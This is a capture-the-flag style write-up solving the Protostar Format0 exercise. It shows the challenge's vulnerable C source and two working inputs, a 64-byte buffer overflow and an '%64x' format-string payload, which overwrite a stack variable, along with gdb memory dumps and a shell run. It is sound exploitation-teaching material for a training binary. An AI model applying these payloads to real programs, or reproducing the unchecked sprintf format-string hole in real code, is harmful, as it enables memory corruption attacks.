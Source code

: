 # For Format0 in Protostar

We are given the following source code:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
>This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

There are 2 ways to do solve this challenge.


### Method 1: Buffer overflow
This method violates the condition that "this level should be done in less than 10 bytes of input". However, it *is* a stepping stone to the correct solution.

This is the string literal of our exploit: `\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\xef\xbe\xad\xde`.
The 64 `\x61` characters fill the buffer, and `\xef\xbe\xad\xde` overwrite the `target` variable.

Before `sprintf` is called, variable `target` is `0x0`, as expected.
```
(gdb) x/x $ebp - 0xc
0xbffff63c:	0x00000000
```

After `sprintf` is called, let's check the memory. We can see that variable `target` has been overwritten to `0xdeadbeef`.
```
(gdb) ni
0x08048416	15	in format0/format0.c
0x08048416 <vuln+34>:	 3d ef be ad de	cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:	 75 0c	jne    0x8048429 <vuln+53>
(gdb) x/x $ebp - 0xc
0xbffff63c:	0xdeadbeef
(gdb) c
Continuing.
you have hit the target correctly :)

Program exited with code 045.
(gdb) 
```

### Method 2: Format string

Our exploit in method 1 took 68 bytes. We want to be able to print these 68 bytes, but with less than 10 bytes. It sounds impossible, but it is actually very simple.

>       An optional decimal digit string (with nonzero first digit) specifying a minimum field width. If the converted value has fewer characters than the field width, it will be padded with spaces on the left (or right, if the left-adjustment flag has been given). Instead of a decimal digit string one may write "*" or "*m$" (for some decimal integer m) to specify that the field width is given in the next argument, or in the m-th argument, respectively, which must be of type int. A negative field width is taken as a '-' flag followed by a positive field width. In no case does a nonexistent or small field width cause truncation of a field; if the result of a conversion is wider than the field width, the field is expanded to contain the conversion result.
[source](https://linux.die.net/man/3/printf)

This is our new exploit input : `\x25\x36\x34\x78\xef\xbe\xad\xde`. Let me explain what it does.
There are two parts to it.

1. `\x25\x36\x34\x78` is hex for the ascii `%64x`. It states that the minimum field width of the formatted string should be 64 characters. Since `%x` prints only 8 characters, `%64x` includes 56 space characters (which are `0x20` in hex) as padding.

```
0xbffff63c:	0x20202020	0x20202020	0x20202020	0x20202020
0xbffff64c:	0x20202020	0x20202020	0x20202020	0x20202020
0xbffff65c:	0x20202020	0x20202020	0x34303820	0x38653138
```

"What is `0x34303820	0x38653138`," You might ask. Well, it is hex for the ascii " 80481e8" to represent the hex `0x80481e8`. And where might that come from? It comes from the stack. `0xbffff62c` is the address where the formatted string is printed to, `0xbffff8aa` is the address of the format string, and since a format flag (e.g. `%x`) was included, the next value in the stack is printed out as readable ascii representation of its hex.
```
(gdb) x/3xw $esp
0xbffff610:	0xbffff62c	0xbffff8aa	0x080481e8
```


2. Since part 1 of the input has filled our buffer, `\xef\xbe\xad\xde` merely overwrites the variable `target` with `0xdeadbeef`
```
0xbffff65c:	0x20202020	0x20202020	0x34303820	0x38653138
0xbffff66c:	0xdeadbeef
```
(I know the address of `target` here is different from in Method 1. I don't know why, but it happens. Most importantly though, the concept does not change.)


We win. “ヽ(´▽｀)ノ”
```
user@protostar:/opt/protostar/bin$ cat /home/user/format0\ input | xargs ./format0
you have hit the target correctly :)
```

END
